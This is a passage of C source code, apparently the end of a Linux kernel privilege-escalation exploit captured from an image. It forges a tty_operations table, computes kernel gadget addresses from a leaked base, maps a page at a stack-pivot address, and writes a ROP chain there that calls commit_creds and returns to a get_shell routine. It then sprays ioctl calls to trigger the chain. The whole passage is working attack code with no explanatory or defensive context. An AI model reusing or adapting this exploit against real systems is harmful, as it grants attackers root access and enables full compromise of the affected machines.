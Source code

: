 ```C
  printf("[*] init_creds:   %p\n", init_creds);
  printf("[*] commit_creds        :   %p\n", commit_creds);
  printf("[*] get_shell            :   %p\n", &get_shell);
  printf("[!] DEBUG....:");
  getchar();
  fake_tty_operations[12] = kbase + 0x4cba4;
  buf[131] = &fake_tty_operations;


  unsigned long iretq = kbase + 0xffffffff810379fb - 0xffffffff81000000;
  unsigned long swapgs = kbase + 0xffffffff81074b54 - 0xffffffff81000000;
  unsigned long pivot_target = kbase + 0x4cba4 & 0xffffffff;
  unsigned long *fake_stack = &pivot_target;
  void *mapped = mmap(pivot_target & 0xfffff000, 0x1000000, PROT_READ | PROT_WRITE, MAP_ANONYMOUS | MAP_FIXED | MAP_PRIVATE | MAP_POPULATE, 0, 0);
  printf("mmap'd chunk:       %p\n", mapped);
  printf("pivot_target:       %p\n", pivot_target);

  unsigned long prepare_kernel_creds = kbase + 0xc07a0;
  unsigned long long user_rflags, user_cs, user_ss, user_sp;
	asm volatile(
		"mov %0, %%cs\n"
		"mov %1, %%ss\n"
		"mov %2, %%rsp\n"
		"pushfq\n"
		"pop %3\n"
		: "=r" (user_cs), "=r" (user_ss), "=r" (user_sp), "=r" (user_rflags)
	);

  unsigned long long rop[] = {
         pop_rdi, // pop rdi
         init_creds,
         commit_creds,
         swapgs,
         0xdeadbeef,
         iretq,
         get_shell,
         user_cs,
         user_rflags,
         user_sp,
        user_ss,
    };
 memcpy((void *)(kbase + 0x4cba4 & 0xffffffff), rop, sizeof(rop));
 puts("[*] Finished writing rop chain to mmap'd page");

  fill(fd, 0, 0x420, &buf);
  for(int i=0; i<0x100; i++)
  {
  	ioctl(spray_fd[i], 0, 0);
  }
  return 0;
}
```
